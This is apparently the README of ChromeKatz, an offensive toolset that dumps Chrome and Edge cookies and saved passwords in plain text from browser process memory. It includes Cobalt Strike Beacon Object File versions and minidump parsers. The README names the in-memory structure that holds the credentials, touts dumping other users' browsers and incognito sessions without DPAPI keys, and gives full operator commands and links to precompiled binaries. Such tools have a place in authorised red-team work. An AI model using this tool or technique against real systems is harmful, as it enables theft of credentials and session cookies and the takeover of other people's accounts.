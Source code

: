 # ChromeKatz

ChromeKatz is a solution for dumping sensitive information from memory of Chromium based browsers.
As for now, ChromeKatz consists of two projects:
 1. CookieKatz - The cookie dumper
 2. CredentialKatz - The password dumper

Both tools have an exe, Beacon Object File, and minidump parser available.

CookieKatz has been completely revamped to use much more robust method for finding the cookies! New method supports older browser version as well.

Google doesn't want to pay bounties and my cats are hungry. But you can support us via Ko-Fi!

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/E1E716M78J)

## CredentialKatz - Dump credential manager contents from memory

CredentialKatz is a project that allows operators to dump all credentials from Credential Manager of Chrome and Edge.
Most of the time Chromium based browsers keep your passwords in the credential manager encrypted until they are needed, either viewed in the credential manager, or auto filled to a login form. But for whatever reason, `passwords_with_matching_reused_credentials_` of `PasswordReuseDetectorImpl` class is populated with all credentials from the credential manager, in **plain text**. This will include all credentials that you have added to the password manager locally. If you have logged in the browser with your account, this will also include all the passwords you have ever synced with that account.

There are few perks in accessing credentials in this way.:
 1. Dump credentials of other user's browsers when running elevated
 2. DPAPI keys not needed to decrypt the credentials
 3. No need to touch on-disk database file
 4. Parse credential manager offline from a minidump file

This solution consists of three projects, **CredentialKatz** that is a PE executable, **CredentialKatz-BOF** the Beacon Object File version and **CredentialKatzMinidump** which is the minidump parser.

## Usage

NOTE! When choosing using PID to target, use commands /list or cookie-katz-find respectively to choose the right subprocess!

### CredentialKatz

```text
Examples:
.\CredentialKatz.exe
    By default targets first available Chrome process
.\CredentialKatz.exe /edge
    Targets first available Edge process
.\CredentialKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CredentialKatz.exe /edge /pid:<pid>
    Target the specified Edge process

Flags:
    /edge       Target current user Edge process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge to list Edge processes
    /help       This what you just did! -h works as well
```

### CredentialKatz-BOF

```text
beacon> help credential-katz
Dump credential manager from Chrome or Edge
Use: credential-katz [chrome|edge] [pid]

beacon> help cookie-katz-find
Find processes for credential-katz
Use: credential-katz-find [chrome|edge]
```

### CredentialKatzMinidump

```text
Usage:
    CredentialKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CredentialKatzMinidump.exe .\msedge.DMP

You need to dump the Chrome/Edge main process. Hint: It is the one with the smallest PID
```

## CookieKatz - Dump cookies directly from memory

CookieKatz is a project that allows operators to dump cookies from Chrome, Edge or Msedgewebview2 directly from the process memory.
Chromium based browsers load all their cookies from the on-disk cookie database on startup.

The benefits of this approach are:
 1. Support dumping cookies from Chrome's Incogntio and Edge's In-Private processes
 1. Access cookies of other user's browsers when running elevated
 1. Dump cookies from webview processes
 1. No need to touch on-disk database file
 1. DPAPI keys not needed to decrypt the cookies
 1. Parse cookies offline from a minidump file

On the negative side, even as the method of finding the correct offsets in the memory are currently stable and work on multiple different versions, it will definitely break at some point in the future.
32bit browser installations are not supported and 32bit builds of CookieKatz are not supported either.

Currently only regular cookies are dumped. Chromium stores [Partitioned Cookies](https://developers.google.com/privacy-sandbox/3pcd/chips) in a different place and they are currently not included in the dump.

This solution consists of three projects, **CookieKatz** that is a PE executable, **CookieKatz-BOF** that is a Beacon Object File version and **CookieKatzMinidump** which is the minidump parser.

## Usage

NOTE! When choosing using PID to target, use commands /list or cookie-katz-find respectively to choose the right subprocess!

### CookieKatz

```text
Examples:
.\CookieKatz.exe
    By default targets first available Chrome process
.\CookieKatz.exe /edge
    Targets first available Edge process
.\CookieKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CookieKatz.exe /webview /pid:<pid>
    Targets the given msedgewebview2 process
.\CookieKatz.exe /list /webview
    Lists available webview processes

Flags:
    /edge       Target current user Edge process
    /webview    Target current user Msedgewebview2 process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge or /webview to target other browsers
    /help       This what you just did! -h works as well
```

### CookieKatz-BOF

```text
beacon> help cookie-katz
Dump cookies from Chrome or Edge
Use: cookie-katz [chrome|edge|webview] [pid]

beacon> help cookie-katz-find
Find processes for Cookie-Katz
Use: cookie-katz-find [chrome|edge|webview]
```

### CookieKatzMinidump

```text
Usage:
    CookieKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CookieKatzMinidump.exe .\msedge.DMP

To target correct process for creating the minidump, you can use the following PowerShell command:
    Get-WmiObject Win32_Process | where {$_.CommandLine -match 'network.mojom.NetworkService'} | select -Property Name,ProcessId
```

# Build and Install

## Use precompiled binaries
Download the latest release build of the ChrokeKatz BOFs [here](https://github.com/Meckazin/ChromeKatz/releases/latest). The zip file includes compiled BOFs and the CNA script to run them.

## Build your own
You may build both projects on Visual Studio with Release or Debug configuration and x64 platform.

BOF version has been developed with Cobalt Strike's Visual Studio template [bof-vs](https://github.com/Cobalt-Strike/bof-vs). This means that Debug configuration for the *-BOFs will generate an exe instead of the COFF file. You can read more about the use of the Visual Studio template [here](https://www.cobaltstrike.com/blog/simplifying-bof-development).

You can compile your own BOF with nmake in **x64 Native Tools Command Prompt for VS 2022**:
```text
nmake all
```

## Credits
- [Henkru](https://github.com/Henkru) for fixing the BOF version crashes and creating the CNA script
- [B3arr0](https://github.com/B3arr0) for testing the BOF version and helping to squash the bugs
- [TheWover](https://github.com/TheWover) for excellent PEB definitions!
- [0vercl0k](https://github.com/0vercl0k) for creating udmp-parser which is the core library for minidump parsing
